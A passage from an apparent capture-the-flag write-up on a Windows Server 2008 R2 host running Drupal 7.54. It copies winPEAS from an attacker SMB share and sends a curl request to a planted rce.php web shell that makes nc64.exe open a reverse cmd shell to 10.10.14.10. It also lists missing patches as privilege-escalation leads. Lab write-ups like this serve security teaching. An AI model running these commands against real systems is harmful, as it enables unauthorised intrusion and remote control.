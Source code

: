 Transfer it using the SMB share, and run it:

```
PS C:\inetpub\drupal-7.54> copy \\10.10.14.10\SHARE\winPEAS.bat
PS C:\inetpub\drupal-7.54> .\winPEAS.bat

```

Unfortunately it hangs. Let's exit the powershell session, and get a new session using nc64.exe again:

> curl -X GET "http://10.10.10.9/rce.php?cmd=%5C%5C10%2E10%2E14%2E10%5CSHARE%5Cnc64%2Eexe%20%2De%20cmd%2Eexe%2010%2E10%2E14%2E10%209999"

In our listener, we are back in a "cmd" shell. This time, when we run the batch script, it works. There is alot of output from this script, and so the output shown below is only what we selected to show here:

```
C:\inetpub\drupal-7.54>winPEAS.bat
winPEAS.bat
...
"Microsoft Windows Server 2008 R2 Datacenter "                                                                   
   [i] Possible exploits (https://github.com/codingo/OSCP-2/blob/master/Windows/WinPrivCheck.bat)                
No Instance(s) Available.                                                                                        
MS11-080 patch is NOT installed XP/SP3,2K3/SP3-afd.sys)                                                          
No Instance(s) Available.                                                                                        
MS16-032 patch is NOT installed 2K8/SP1/2,Vista/SP2,7/SP1-secondary logon)                                       
No Instance(s) Available.                                                                                        
MS11-011 patch is NOT installed XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP1/2,7/SP0-WmiTraceMessageVa)                    
No Instance(s) Available.                                                                                        
MS10-59 patch is NOT installed 2K8,Vista,7/SP0-Chimichurri)                                                      
No Instance(s) Available.                                                                                        
MS10-21 patch is NOT installed 2K/SP4,XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP0/1/2,7/SP0-Win Kernel)                   
No Instance(s) Available.                                                                                        
MS10-092 patch is NOT installed 2K8/SP0/1/2,Vista/SP1/2,7/SP0-Task Sched)                                        
No Instance(s) Available.                                                                                        
MS10-073 patch is NOT installed XP/SP2/3,2K3/SP2/2K8/SP2,Vista/SP1/2,7/SP0-Keyboard Layout)                      
No Instance(s) Available.                                                                                        
MS17-017 patch is NOT installed 2K8/SP2,Vista/SP2,7/SP1-Registry Hive Loading)                                   
No Instance(s) Available.                                                                                        
MS10-015 patch is NOT installed 2K,XP,2K3,2K8,Vista,7-User Mode to Ring)                                         
No Instance(s) Available.                                                                                        
MS08-025 patch is NOT installed 2K/SP4,XP/SP2,2K3/SP1/2,2K8/SP0,Vista/SP0/1-win32k.sys)                          
```
